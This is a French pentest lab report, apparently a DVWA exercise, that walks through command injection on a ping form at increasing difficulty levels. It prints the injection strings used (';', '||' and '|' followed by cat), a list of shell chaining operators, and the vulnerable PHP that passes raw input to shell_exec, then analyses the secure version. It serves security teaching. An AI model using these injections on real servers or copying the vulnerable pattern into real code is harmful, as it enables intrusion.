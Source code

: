 # 1. Command Injection

La Command Injection est une vulnérabilité de sécurité où un attaquant peut injecter et exécuter des commandes système dans une application, souvent via une interface utilisateur. Cette vulnérabilité permet à un attaquant d'exécuter des commandes directement sur le serveur ou la machine hôte qui exécute l'application.

Lorsqu'une application prend des données en entrée de l'utilisateur (par exemple via un formulaire web) et les utilise sans validation ou filtre, un attaquant peut insérer une commande système malveillante dans l'entrée. Si l'application passe cette entrée directement à un interpréteur de commande (comme le shell Linux), l'attaquant peut exécuter des commandes non autorisées sur le serveur.

## 1.1 Premier niveau - low

On arrive sur une page avec un service de ping  
![images](file://C:\Users\Sacha\Desktop\pentest_dvwa\rapport_dvwa\images\exec\1.png?msec=1736349725469)

Puisque c'est du PHP, on va essayer une simple méthode qui consiste à utiliser le caractère `;` pour "sortir" du code PHP qui permet de ping, puis saisir la commande que l'on souhaite :

```bash
; cat ../exec/source/low.php
```

Ici, par exemple, nous affichons le code source de la page, ce qui nous permettra de visualiser en même temps comment fonctionne le serveur.

![images](file://C:\Users\Sacha\Desktop\pentest_dvwa\rapport_dvwa\images\exec\2.png?msec=1736349725471)

Puisque c'est du code PHP, il faut regarder avec `Ctrl + U` pour voir le script :

```php
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = $_REQUEST[ 'ip' ];

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    $html .= "<pre>{$cmd}</pre>";
}
```

On remarque qu'il n'y a aucun contrôle sur l'input de l'utilisateur. De plus, on comprend mieux comment les commandes système sont exécutées : grâce à la fonction `shell_exec()` de PHP.

---

## 1.2 Deuxième niveau - medium

Pour ce deuxième niveau, en essayant avec `;`, l'injection ne fonctionne pas. Nous avons donc cherché différents caractères propres à Linux qui auraient pu échapper au filtre que le développeur a mis en place, car on se doute que certains caractères ont été blacklistés.

Après une recherche rapide sur Internet, on tombe sur un GitHub :  
`https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Command%20Injection/README.md`  
Ce dernier nous fournit quelques indications :

```
; (Semicolon): Allows you to execute multiple commands sequentially.
&& (AND): Execute the second command only if the first command succeeds (returns a zero exit status).
|| (OR): Execute the second command only if the first command fails (returns a non-zero exit status).
& (Background): Execute the command in the background, allowing the user to continue using the shell.
| (Pipe): Takes the output of the first command and uses it as the input for the second command.
```

En essayant ces caractères, on en trouve un qui n'est pas blacklisté : `||`.  
Cela nous permet d'exécuter cette commande et de lire le code PHP :

```bash
|| cat ../exec/source/medium.php
```

```php
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = $_REQUEST[ 'ip' ];

    // Set blacklist
    $substitutions = array(
        '&&' => '',
        ';'  => '',
    );

    // Remove any of the characters in the array (blacklist).
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    $html .= "<pre>{$cmd}</pre>";
}
```

Notre théorie initiale était correcte. On remarque effectivement une blacklist qui inclut `;` et `&&`, mais pas `||`.

---

## 1.3 Troisième niveau - hard

Pour ce troisième challenge, on part du principe que l'administrateur a blacklisté tous les caractères mentionnés précédemment. Nous devons donc trouver une autre méthode.

En essayant plusieurs commandes, on trouve cette commande qui fonctionne :

```bash
|cat ../exec/source/high.php
```

Le script est bien exécuté :  
![images](file://C:\Users\Sacha\Desktop\pentest_dvwa\rapport_dvwa\images\exec\3.png?msec=1736349725470)

On peut maintenant essayer de comprendre pourquoi.  
La raison est probablement un oubli ou une faute de frappe, puisqu'on voit que le symbole `|` n'est pas blacklisté, mais le symbole `| ` (avec un espace) l'est. Cela nous permet donc d'exécuter notre code.

---

## 1.4 Niveau impossible

Voici le code PHP du niveau impossible :

```php
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
        // Check Anti-CSRF token
        checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

        // Get input
        $target = $_REQUEST[ 'ip' ];
        $target = stripslashes( $target );

        // Split the IP into 4 octets
        $octet = explode( ".", $target );

        // Check IF each octet is an integer
        if( ( is_numeric( $octet[0] ) ) && ( is_numeric( $octet[1] ) ) && ( is_numeric( $octet[2] ) ) && ( is_numeric( $octet[3] ) ) && ( sizeof( $octet ) == 4 ) ) {
                // If all 4 octets are int's put the IP back together.
                $target = $octet[0] . '.' . $octet[1] . '.' . $octet[2] . '.' . $octet[3];

                // Determine OS and execute the ping command.
                if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
                        // Windows
                        $cmd = shell_exec( 'ping  ' . $target );
                }
                else {
                        // *nix
                        $cmd = shell_exec( 'ping  -c 4 ' . $target );
                }

                // Feedback for the end user
                $html .= "<pre>{$cmd}</pre>";
        }
        else {
                // Ops. Let the user name theres a mistake
                $html .= '<pre>ERROR: You have entered an invalid IP.</pre>';
        }
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```

### Analyse

L'input de l'utilisateur est récupéré via `$_REQUEST['ip']`, puis la fonction `stripslashes()` est appliquée pour retirer les caractères spéciaux.

Ensuite, l'adresse IP est vérifiée à l'aide du bloc suivant :

```php
$octet = explode( ".", $target );
if( ( is_numeric( $octet[0] ) ) && ( is_numeric( $octet[1] ) ) && ( is_numeric( $octet[2] ) ) && ( is_numeric( $octet[3] ) ) && ( sizeof( $octet ) == 4 ) )
```

Ce code divise l'IP en 4 parties grâce au séparateur `.`. Chaque octet est validé avec `is_numeric()` pour vérifier qu'il s'agit bien de chiffres. Enfin, la taille est contrôlée avec `sizeof($octet) == 4